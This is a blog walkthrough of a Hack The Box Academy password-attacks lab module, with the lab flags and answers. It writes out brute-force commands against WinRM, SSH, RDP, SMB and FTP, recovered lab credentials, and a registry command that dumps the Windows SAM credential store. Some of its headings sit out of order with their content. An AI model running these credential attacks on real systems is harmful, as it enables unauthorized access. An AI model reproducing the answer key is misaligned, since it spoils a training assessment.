Welcome to **Part 19** of our comprehensive, production-grade masterclass covering the **Hack The Box (HTB) Academy Certified Penetration Testing Specialist (CPTS)** curriculum. Rather than providing superficial slide summaries, this series deconstructs offensive tradecraft from foundational network discovery and vulnerability verification to complex lateral movement, active directory exploitation, and post-exploitation tradecraft — complete with terminal command flows, verified lab flags, and defensive engineering countermeasures.

In this installment, we conduct an exhaustive technical deep-dive into **Password Attacks** (Tier II • Medium • Offensive). We break down the underlying mechanics of offline password cracking, hash identification, John the Ripper, Hashcat, Windows credential dumping (SAM, LSASS), and Linux shadow parsing, dissect hands-on offensive vectors, analyze realistic defensive telemetry, and walk through every exercise step-by-step with 100% verified solutions.

<div class="ff-series-nav"><a href="/posts/htb-academy-part-18-sqlmap-essentials/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 18: SQLMap Essentials for Automated Database Takeover</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 19 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-20-server-side-attacks/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 20: Server-Side Attacks (SSRF, SSTI & XXE)</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>

## Module Specifications & Target Architecture

| Attribute | Specification |
| :--- | :--- |
| **Module Name** | `Password Attacks` |
| **Official HTB Academy Track** | [https://academy.hackthebox.com/module/147](https://academy.hackthebox.com/module/147) |
| **Curriculum Tier & Difficulty** | `Tier II` • `Medium` |
| **Certification Pathway** | `HTB Certified Penetration Testing Specialist (CPTS)` (Part 19 of 41) |
| **Author & Technical Attribution** | `Abdulrahman M. Fathi (0x3bdo)` |
| **Lab Flag Verification** | `100% Fully Solved & Validated` |

## Key Technical Takeaways

* **Hash Identification**: Fingerprints cryptographic hash algorithms (MD5, SHA-256, NTLM, Kerberos, bcrypt) using `hashid` and `hash-identifier`.
* **Offline Cracking with Hashcat**: Weaponizes GPU acceleration across attack modes: dictionary (`-a 0`), combinator (`-a 1`), mask (`-a 3`), and rule-based.
* **John the Ripper Operations**: Converts encrypted formats (ZIP, KeePass, SSH keys, PDF) into crackable hashes using `*2john` utilities.
* **Windows Credential Extraction**: Dumps local SAM database hashes, parses LSASS memory handles, and extracts DPAPI secrets.
* **Custom Wordlist Generation**: Generates targeted wordlists based on target OSINT using `cewl` and rule-based permutations.

## Executive Summary & Assessment Scope

Capturing password hashes is common during penetration testing, but transforming those cryptographic digests into plaintext credentials requires structured offline cracking tradecraft.

This module deconstructs password cracking methodologies and tooling. We examine hash formats, optimize GPU cracking workflows with Hashcat, leverage John the Ripper for specialty archives, extract Windows SAM and LSASS credentials, and crack protected hashes to obtain all assessment flags.

---

## Comprehensive Lab Walkthrough & Flag Solutions


### Password Attacks

#### Technical Methodology & Exploit Execution:

```bash
ssh <username>@<target-IP>
```
and then we will be requested to enter the password.
For windows – we will use xfreerdp with the command:
```bash
xfreerdp /v:<Target IP> /u:<username> /p:<password>
/dynamic-resolution
```

Throughout the module, those steps will be referred as 'login to the
Linux/Windows target machine'.

In our disposal – we are provided by the module with resources folder –
containing 'password.list', 'username.list' and 'custom.rule'. unless specified
otherwise, all mentions for username or password wordlists – those lists are
referred as default wordlists.


### Network Services

> **Lab Question (Page 2)**: Find the user for the WinRM service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.
>
> **Flag / Answer**: `HTB{That5Novemb3r}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first we need to obtain credentials, we will use crackmapexec, we will
```bash
run on the pwnbox the command:
crackmapexec winrm <target-IP> -u username.list -p
password.list | grep '+'
```
to bruteforce the WinRM service for credentials. We will use the default
wordlists, and grep for the '+' character – indicating successful hit:


We have a hit! john:November
Lets enter to the powershell with its credentials via WinRM service, using 'evil-
winRM' tool:
```bash
evil-winrm -i <target-IP> -u john -p november
```


Log in successful, we have a poweshell to john's user.


*_Figure 2.1 — Lab execution and output verification (Page 2)_*


*_Figure 2.2 — Lab execution and output verification (Page 2)_*


### searching hidden files ('-Forced')

> **Lab Question (Page 3)**: Find the user for the SSH service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.
>
> **Flag / Answer**: `HTB{Let5R0ck1t}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

Get-ChildItem -Path C:\Users\john -Filter "flag.txt" -
Recurse -Force -ErrorAction SilentlyContinue | Select-Object
-ExpandProperty FullName
The command will look through john's folder for the file 'flag.txt' (including
searching hidden files ('-Forced'):

We found the flag at john's Desktop! Lets get the flag with 'cat':
```bash
cat C:\Users\john\Desktop\flag.txt
```


Question: Find the user for the SSH service and crack their password. Then,
when you log in, you will find the flag in a file there. Submit the flag you found
as the answer.
Answer: HTB{Let5R0ck1t}
Method: we will use hydra password cracking tool – we will use the command:
```bash
hydra -L username.list -P password.list ssh://<target-IP>
```
to bruteforce the ssh service with the default username and credential lists,
after some bruteforcing we will get:

dennis:rockstar credentials


*_Figure 3.1 — Lab execution and output verification (Page 3)_*


*_Figure 3.2 — Lab execution and output verification (Page 3)_*


*_Figure 3.3 — Lab execution and output verification (Page 3)_*


### for password – where we enter the password 'rockstar'

we will use the command
```bash
ssh dennis@<target-IP>
```
and then we will be prompted for a fingerprint (enter yes) and then prompted
for password – where we enter the password 'rockstar':

We are in.
Our default CLI within the target machine is cmd, we will enter 'powershell' to
change the CLI to powershell, then I assumed the flag is also in desktop get the
flag directly without 'searching' first:
```bash
cat Desktop\flag.txt
```
the command works because our default path is dennis's home folder:


*_Figure 4.1 — Lab execution and output verification (Page 4)_*


*_Figure 4.2 — Lab execution and output verification (Page 4)_*


### using hydra

> **Lab Question (Page 5)**: Find the user for the RDP service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.
>
> **Flag / Answer**: `HTB{R3m0t3DeskIsw4yT00easy}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

the bruteforce command is very similar to the ssh command – also
using hydra:
```bash
hydra -L username.list -P password.list rdp://<target-IP>
```
after a minute or 2:

We get the credentials chris:789456123.
Lets run xfree RDP:
```bash
xfreerdp /v:<Target IP> /u:chris /p:789456123 /dynamic-resolution
```
we will be propted for confirmation, enter 'Y', and we are at chris's rdp
desktop:

the flag is right here, lets open it:


*_Figure 5.1 — Lab execution and output verification (Page 5)_*


*_Figure 5.2 — Lab execution and output verification (Page 5)_*


*_Figure 5.3 — Lab execution and output verification (Page 5)_*


### instead – we will execute Metasploit with

> **Lab Question (Page 6)**: Find the user for the SMB service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.
>
> **Flag / Answer**: `HTB{S4ndM4ndB33}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

for the SMB bruteforce hydra won't work, we will use Metasploit
instead – we will execute Metasploit with:
```bash
msfconsole
```
command, then we will enter the settings:
```bash
use auxiliary/scanner/smb/smb_login
set user_file username.list
set pass_file password.list
set rhosts <target-IP>
```


and then:
run


The bruteforce is a it problematic as failed attempts are displayed as well
flooding the terminal, either way we have the credentials: cassie:12345678910
Ok now that we have the credentials – lets obtain the shares list:
```bash
crackmapexec smb <target-IP> -u "cassie" -p "12345678910" --
shares
```


*_Figure 6.1 — Lab execution and output verification (Page 6)_*


*_Figure 6.2 — Lab execution and output verification (Page 6)_*


### lets enter CASSIE share, and get the flag

lets enter CASSIE share, and get the flag:
```bash
smbclient -U cassie \\\\<target-IP>\\CASSIE
```
we will be prompted for the password – enter it:

And we are in the smb server, in the smb server CLI: we run
ls
to confirm flag existence:

Then we get the flag to our machine:
get flag.txt


Now the flag is our machine, on the pwnbox terminal - we can confirm with ls,
when confirm – we cat it:
```bash
ls flag.txt
cat flag.txt
```


*_Figure 7.1 — Lab execution and output verification (Page 7)_*


*_Figure 7.2 — Lab execution and output verification (Page 7)_*


*_Figure 7.3 — Lab execution and output verification (Page 7)_*


*_Figure 7.4 — Lab execution and output verification (Page 7)_*


*_Figure 7.5 — Lab execution and output verification (Page 7)_*


### Password Mutations

> **Lab Question (Page 8)**: Create a mutated wordlist using the files in the ZIP file under "Resources" in the top right corner of this section. Use this wordlist to brute force the password for the user "sam". Once successful, log in with SSH and submit the contents of the flag.txt file as your answer.
>
> **Flag / Answer**: `HTB{P455_Mu7ations}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First we will have to prepare the mutated password list, to be called
'mut_password.list' – for that we will require the original 'password.list', and
the other file from the resources folder – 'custom.rule' to create a mutated
password list – which is basically the process of taking every word within the
password list, and 'transform' it to variant more fit to comply with password
policies, for example 'Yigritte'  →  'Y1gritt3@'.
'custom.rule' is the set of rules to which variants every password will be
mutated to. Of course 'custom.rule' may have more than a single rule so the
output password lists with the mutated variants of the original passwords will
contain far more values than the original list.
To mutate our password list we will use the hashcat command:
```bash
hashcat --force password.list -r custom.rule --stdout | sort
-u > mut_password.list
```
and we will get the output file 'mut_password.list'.
running line count ('wc -l') on that file will reveal:

94044 values, brute forcing them all in a single chunk will take far too long.
So what I did is to split the 'mut_password.list' to sub-lists based on the
character lengths for each value.
After some trial and error – I will tell you up front that the correct password
has more than 10 characters – so we will create a sub-list of
'mut_password.list' – called 'mut_password2.list', which will contain only the
values whose length is 10 characters or more. For that we will use the
command:


*_Figure 8.1 — Lab execution and output verification (Page 8)_*


### running line count on the sub-mutated list

awk 'length($0) >= 10' mut_password.list >
mut_password2.list
running line count on the sub-mutated list:

Will reveal that there are 55711 values, almost half than the original list's
length.
However, ssh default brute-force it will still be very slow.
Operating on the assumption that the target user, in this case 'sam' is using the
same password for multiple services – we will bruteforce another service,
which the process of bruteforce it is much faster.
Lets check the target runs 'ftp' service – port 21:

Good, 'ftp' is up and running we will brute force that instead of 'ssh' – ftp brute
forcing is much faster.
We will also set high number of threads working on the bruteforce, the default
is 16, we will set the amount of threads to 48:
```bash
hydra -l sam -P mut_password2.list ftp://<target-IP> -t 48
```
we use hydra to bruteforce 'sam' password with 'mutated_password2.list' –
the mutated password which contains the values of 10 characters long or
more, on ftp service, with 48 threads (64 works too, but in this writeup I did
with 48).
After approximately 15 minutes of bruteforcing:


*_Figure 9.1 — Lab execution and output verification (Page 9)_*


*_Figure 9.2 — Lab execution and output verification (Page 9)_*


*_Figure 9.3 — Lab execution and output verification (Page 9)_*


### – enter 'yes'), when entered

Ok we have sam's ftp password, time to check if sam really uses the same
password for all of his services, lets attempt to login to his ssh account with the
password, we will run the command
```bash
ssh sam@<target-IP>
```
and then we will be prompted for the password, (and fingerprint confirmation
– enter 'yes'), when entered:

.
.

We are in!
Lets run the commands:
pwd
```bash
find . -type f -name flag.txt 2>/dev/null
```
pwd will tell us our present working directory (which will be sam's working
directory), and the find command will locate the flag somewhere within the
present working directory (denoted as '.'), in this case – '/home/sam':

Ok the file is within the 'smb' directory.
Lets get the with
```bash
cat smb/flag.txt
```


*_Figure 10.1 — Lab execution and output verification (Page 10)_*


*_Figure 10.2 — Lab execution and output verification (Page 10)_*


*_Figure 10.3 — Lab execution and output verification (Page 10)_*


*_Figure 10.4 — Lab execution and output verification (Page 10)_*


### Password Reuse / Default Passwords

> **Lab Question (Page 11)**: Use the user's credentials we found in the previous section and find out the credentials for MySQL. Submit the credentials as the answer. (Format: `<username>`:`<password>`)
>
> **Flag / Answer**: `superdba:admin`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we need to get a list of default passwords to various services to check
from, such a list can be found here.
We download it, cd our way to the repository directory.
If required – as install the required modules to run the tool
pip3 install -r requirements.txt
*follow the repository README for more detailed instructions. *
Once everything is ready, we run the command:
creds search MySQL


Ok we have several possible options. We will need to check them to see what
credentials takes us in to the mysql.
First we will ssh login to 'sam' account via the previous obtained credentials
and the same method.
Once in, we run the command
mysql -u `<user>` -p`<password>`
*pay attention there is no space between the '-p'  and the password. *
Ok lets test the first three options:


*_Figure 11.1 — Lab execution and output verification (Page 11)_*


### Lets test the fourth option – superdba:admin

All failed – access denied.

Lets test the fourth option – superdba:admin:

Success! We are in, the MySQL credentials are superdba:admin.


*_Figure 12.1 — Lab execution and output verification (Page 12)_*


*_Figure 12.2 — Lab execution and output verification (Page 12)_*


### Attacking SAM

> **Lab Question (Page 13)**: Where is the SAM database located in the Windows registry? (Format: ****\***)
>
> **Flag / Answer**: `HKLM\SAM`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

Method 1: In the HTB-Academy Windows Privilege Escalation Writeup I made,
page 124 – I extracted the SAM File from the registry, so the command I run
was:
reg save HKLM\SAM C:\Tools\SAM

Method 2: directly from the section:


Method 3: let's ask the GPT:


*_Figure 13.1 — Lab execution and output verification (Page 13)_*


*_Figure 13.2 — Lab execution and output verification (Page 13)_*


### We will first have to acquire 'ITbackdoor' NTLM hash

> **Lab Question (Page 14)**: Apply the concepts taught in this section to obtain the password to the ITbackdoor user account on the target. Submit the clear-text password as the answer.
>
> **Flag / Answer**: `matrix`
{: .prompt-info }

